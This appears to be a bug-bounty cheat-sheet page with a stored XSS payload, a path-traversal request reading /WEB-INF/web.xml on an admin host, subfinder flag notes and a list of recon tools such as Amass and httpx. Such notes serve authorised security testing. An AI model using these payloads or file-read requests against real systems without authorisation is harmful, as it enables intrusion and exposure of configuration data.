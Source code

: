 # Payload Stored XSS
#### <img src=x onerror​=alert(origin)>

# Payload LFI
Since we are working in a Java environment, I attempted to read /WEB-INF/web.xml because this file often contains a lot of useful information. By navigating to http://admin.target:8443/admin/download?fileName=/WEB-INF/web.xml, I was able to access some juicy information.! https://medium.com/@HX007/a-journey-of-limited-path-traversal-to-rce-with-40-000-bounty-fc63c89576ea




# subdomain finder

#### subfinder -d yourdomain_name -v  
      -d = particular one domain enumurate <br>
      -dl = Maltipull domain enumurate from a file <br>
      -o, -output string = file to write output to <br>
      -silent = show only subdomains name in output <br>
      -nW, -active = display active subdomains only <br>
      -oI, -ip = include IP address and domain name in output (-active only) <br>
      -max-time int = minutes to wait for enumeration results (default 10) <br>
      -ei, -exclude-ip = exclude IPs from the list of domains <br>


 go-to tools 
#Subfinder, 
#Amass, 
#Bbot 
to gather subdomains.
--------------------------------------
 filtered the live ones with #httpx.
--------------------------------------
using the 
#"-sc — title" 
flags because they show the status code and page title, which helps me spot interesting subdomains faster. 
